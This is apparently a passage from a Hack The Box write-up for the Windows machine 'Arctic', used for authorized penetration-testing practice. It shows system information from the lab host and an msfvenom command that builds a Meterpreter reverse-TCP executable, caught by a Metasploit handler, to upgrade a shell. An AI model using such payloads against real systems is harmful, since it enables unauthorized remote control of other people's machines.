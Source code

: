 ```cmd
System Boot Time:          15/8/2021, 1:39:13 
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 200 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.234 MB
Virtual Memory: In Use:    813 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
```

## Privesc

### Shell to Meterpreter 

I wanted to upgrade my shell so I used `msfvenom` and `mutli/handler` from **Metasploit**:

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=$(vpnip) LPORT=8500 -f exe > meterpreter.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

![](/assets/img/htb/machines/windows/easy/arctic/meter.png)
